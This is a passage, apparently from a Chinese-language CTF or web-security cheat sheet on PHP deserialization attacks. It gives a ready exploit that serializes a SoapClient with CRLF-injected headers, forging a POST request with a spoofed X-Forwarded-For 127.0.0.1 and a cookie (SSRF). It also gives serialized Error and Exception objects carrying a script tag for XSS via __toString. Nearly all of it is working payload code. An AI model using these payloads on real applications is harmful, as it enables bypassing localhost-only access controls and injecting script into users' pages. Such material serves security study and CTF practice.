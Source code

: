 ```
$aaa = str_replace('^^', '%0d%0a', $aaa);
$aaa = str_replace('&amp;', '%26', $aaa);
echo $aaa;

?&gt;

```

```
常见exp：
&lt;?php
$target = 'http://123.206.216.198/bbb.php';
$post_string = 'a=b&amp;flag=aaa';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: xxxx=1234'
    );
$b = new SoapClient(null,array('location' =&gt; $target,'user_agent'=&gt;'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      =&gt; "aaab"));
 
$aaa = serialize($b);
$aaa = str_replace('^^','%0d%0a',$aaa);
$aaa = str_replace('&amp;','%26',$aaa);
echo $aaa;
?&gt;

```

### __toString方法进行XSS

> 
**Error使用条件：**



```
&lt;?php
$a = new Error("&lt;script&gt;alert(1)&lt;/script&gt;");
$b = serialize($a);
$b = urlencode($b);  // 因为有不可见字符，所以url编码一下
echo $b;

// 测试
echo unserialize(urldecode($b));

```

> 
**Exception使用条件：**



```
&lt;?php
$a = new Exception("&lt;script&gt;alert(1)&lt;/script&gt;");
$b = serialize($a);
$b = urlencode($b);  // 因为有不可见字符，所以url编码一下
echo $b;

// 测试
echo unserialize(urldecode($b));

```
